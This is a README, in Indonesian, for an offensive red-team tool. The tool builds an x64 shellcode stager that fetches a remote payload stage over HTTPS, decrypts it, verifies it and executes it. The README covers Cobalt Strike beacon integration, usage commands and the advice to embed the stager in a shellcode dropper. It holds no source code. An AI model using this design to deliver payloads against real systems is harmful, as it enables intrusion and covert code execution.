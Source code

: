 # Secure Stager

Proyek ini mendemonstrasikan sebuah stager independen posisi x64 yang memverifikasi stage yang diunduhnya sebelum mengeksekusinya. Ini menawarkan perlindungan terhadap serangan man-in-the-middle bagi mereka yang mengkhawatirkan hal-hal seperti itu. Ukuran stager akhir ~4100 byte.

## Implementasi Teknis

Stager yang dihasilkan oleh alat ini dibuat dengan menggunakan kerangka kerja [Stardust]. Dengan menggunakan masukan dari pengguna, sebuah file header (Config.h) dibuat dan dikompilasi ke dalam stager oleh secure_stager.py. 

Validitas dari tahap yang diambil diverifikasi dengan menggunakan checksum MD5. Selama proses pembuatan, hash dari tahap payload ditentukan dan kemudian digunakan untuk mengenkripsinya dengan XOR. Hash ini kemudian dikompilasi ke dalam stager. Pada saat runtime, stager mengunduh tahap dari URL target (disediakan selama pembuatan), XOR mendekripsinya menggunakan hash MD5 asli, dan kemudian mengambil hash MD5 dari tahap yang telah didekripsi untuk membandingkannya dengan yang asli. Jika cocok, tahap tersebut dieksekusi.

## Integrasi Cobalt Strike

Alat ini dapat diintegrasikan ke dalam Cobalt Strike melalui penggunaan skrip secure_stager.cna Aggressor. Setelah memuatnya di pengelola skrip, item menu `Secure Stager` dapat ditemukan di bawah `Payloads`. Setelah memilih pendengar dan menentukan URL di mana payload akan tersedia, skrip Aggressor akan menghasilkan suar stageless x64 mentah dan menyimpannya ke disk sebelum memanggil secure_stager.py untuk menghasilkan stager. 

Fungsionalitas stager yang aman dalam Cobalt Strike sangat menarik karena fungsionalitas stager bawaan Cobalt Strike tidak memverifikasi tahap yang diambil atau mengambil tahap yang mencerminkan modifikasi pengguna pada sleepmask atau UDRL. Toolkit ini memastikan validitas stage dan bahwa stage yang diambil akan berisi sleepmask/UDRL yang dimodifikasi pengguna/dll.

## Penggunaan

Sintaks Baris Perintah: `./secure_stager.py </path/to/payload/stage.bin> <HTTPS url that stage will be hosted at>`.

Contoh: `./secure_stager.py /home/kali/beacon_x64.bin https://www.myhostingdomain.com/aboutus`.

Setelah skrip python selesai, hoskan stager terenkripsi yang dihasilkan pada URL yang Anda berikan pada alat tersebut. Selanjutnya, sertakan stager yang dihasilkan di dalam dropper/pelari shellcode favorit Anda.

## Catatan

1. Tidak ada metode penghindaran AV/EDR yang ada di dalam stager; itu adalah tugas dari shellcode runner Anda.  
2. Setelah stage diunduh dan diverifikasi, stage akan dieksekusi di thread yang sama dengan stager melalui penunjuk fungsi.  
3. Stager saat ini hanya mendukung koneksi HTTPS, jadi pastikan Anda meng-host stage menggunakan SSL.  

## Pekerjaan lebih lanjut
1. Membuat stager menjadi proxy-aware.  
2. Tambahkan opsi penyesuaian untuk header permintaan.
3. Menerapkan protokol alternatif untuk mengambil tahap payload

## Pesan Penting
   Tahap ini masi dalam proses Pengembangan :>
   bye Fauzan ALdi
